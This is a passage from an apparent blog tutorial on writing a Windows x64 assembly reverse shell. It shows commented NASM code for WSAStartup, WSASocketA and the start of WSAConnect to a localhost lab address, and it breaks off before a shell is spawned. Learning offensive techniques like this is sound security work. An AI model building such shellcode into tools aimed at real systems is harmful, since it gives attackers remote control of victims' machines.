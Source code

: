 This is the standard prologue for our code using external APIs.  In this way our code is short and sweet and easy to follow, since we won't have to manually lookup the APIs....yet 😸  That's Part 7 of our series, so BE PREPARED!  Nah I kid, but seriously be ready to deal with 500+ lines of code in the next post after this one.  A reverse shell in x64 assembly is a fun challenge but takes a considerable amout of coding effort to achieve.  Anyways, moving on...

> **WSAStartup**

```nasm
main:
    ; Call WSAStartup
    and rsp, 0xFFFFFFFFFFFFFFF0 ; stack alignment
    xor rcx, rcx
    mov cx, 0x198               ; Defines the size of the buffer that will be allocated on the stack to hold the WSADATA structure
    sub rsp, rcx                ; Reserve space for lpWSDATA structure
    lea rdx, [rsp]              ; Assign address of lpWSAData to RDX - 2nd param
    mov cx, 0x202               ; Assign 0x202 to wVersionRequired as 1st parameter
    sub rsp, 0x28               ; stack alignment
    call WSAStartup
    add rsp, 0x30               ; stack alignment
```

Pretty standard, this just sets up our Socket required version and other necessary items.  As always, I've included comments throughout the code to help you follow more easily.

> **WSASocketA**

```nasm
 ; Create a socket 
    xor rcx, rcx           
    mov cl, 2                   ; AF = 2 - 1st param
    xor rdx, rdx          
    mov dl, 1                   ; Type = 1 - 2nd param
    xor r8, r8              
    mov r8b, 6                  ; Protocol = 6 - 3rd param
    xor r9, r9                  ; lpProtocolInfo = 0 - fourth param
    mov [rsp+0x20], r9          ; 0 = 5th param
    mov [rsp+0x28], r9          ; 0 = 6th param
    call WSASocketA             ; Call WSASocketA 
    mov r12, rax                ; Save the returned socket value
    add rsp, 0x30
```

Nice!  So now we have a fully created socket.  I don't have the APIs included in my comments, but if you want more detailed information on them I highly recommend checking out Microsoft's API documentation to get the full picture.  Let's move on to our socket connection...

> **WSAConnect**

```nasm
 ; Initiate Socket Connection
    mov r13, rax                ; Store SOCKET handle in r13 for future needs
    mov rcx, r13                ; Our socket handle as parameter 1
    xor rax,rax                 ; rax = 0
    inc rax                     ; rax = 1
    inc rax                     ; rax = 2
    mov [rsp], rax              ; AF_INET = 2
    mov rax, 0x2923             ; Port 9001
    mov [rsp+2], rax            ; our Port
    mov rax, 0x0100007F         ; IP 127.0.0.1 (I use virtual box with port forwarding, hence the localhost addr)
    mov [rsp+4], rax            ; our IP
    lea rdx,[rsp]               ; Save pointer to RDX
    mov r8, 0x16                ; Move 0x10 (decimal 16) to namelen
    xor r9,r9             
    push r9                     ; NULL
    push r9                     ; NULL 
```